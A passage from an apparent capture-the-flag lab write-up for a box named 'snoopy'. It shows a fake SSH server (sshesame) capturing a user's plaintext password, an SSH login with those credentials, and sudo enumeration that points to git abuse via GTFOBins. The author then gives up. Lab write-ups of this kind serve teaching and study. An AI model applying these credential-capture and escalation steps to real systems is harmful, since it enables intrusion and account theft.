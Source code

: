 we got credentials!

```bash
joshua@kaligra:/opt/tools/sshesame$ ./sshesame -config sshesame.yaml
INFO 2024/09/05 14:42:23 No host keys configured, using keys at "/home/joshua/.local/share/sshesame"
INFO 2024/09/05 14:42:23 Listening on 10.10.14.15:2222
2024/09/05 14:43:00 [10.10.11.212:35606] authentication for user "cbrown" with password "sn00pedcr3dential!!!" accepted
2024/09/05 14:43:00 [10.10.11.212:35606] connection with client version "SSH-2.0-paramiko_3.1.0" established
2024/09/05 14:43:00 [10.10.11.212:35606] [channel 0] session requested
2024/09/05 14:43:00 [10.10.11.212:35606] [channel 0] command "ls -la" requested
2024/09/05 14:43:00 [10.10.11.212:35606] [channel 0] closed
2024/09/05 14:43:00 [10.10.11.212:35606] connection closed
```



## ssh access as cbrown user

```bash
joshua@kaligra:/opt/tools/sshesame$ ssh cbrown@10.10.11.212
The authenticity of host '10.10.11.212 (10.10.11.212)' can't be established.
ED25519 key fingerprint is SHA256:XCYXaxdk/Kqjbrpe8gktW9N6/6egnc+Dy9V6SiBp4XY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.212' (ED25519) to the list of known hosts.
cbrown@10.10.11.212's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
cbrown@snoopy:~$ ls
cbrown@snoopy:~$

```

## local enumeration

```bash
cbrown@snoopy:~$ crontab -l
no crontab for cbrown
cbrown@snoopy:~$ sudo -l
[sudo] password for cbrown:
Matching Defaults entries for cbrown on snoopy:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git ^apply -v [a-zA-Z0-9.]+$
```

we can use `git apply` as `sbrown` user

Let's check on GTFObins

https://gtfobins.github.io/gtfobins/git/#file-read

...I surrender :)

